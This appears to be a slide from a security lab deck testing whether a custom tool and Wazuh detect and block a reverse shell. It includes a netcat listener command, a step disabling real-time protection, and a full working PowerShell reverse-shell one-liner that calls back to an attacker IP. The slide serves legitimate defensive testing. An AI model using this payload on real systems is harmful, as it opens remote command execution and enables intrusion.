

Test Case 11: Block network connection on agent
Open a terminal in your attacker machine
Run  nc -lvp 4444
Ensure Real-time protection is disabled on the agent
Open Powershell on the agent and run the command
$client = New-Object System.Net.Sockets.TCPClient("192.168.71.139",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
View Firewall rule created by custom blockshell.exe to block attacker IP
View alert generated by Wazuh on creation of firewall rule and network connection
View email alert sent to Administrator to notify creation of firewall rule and network connection
24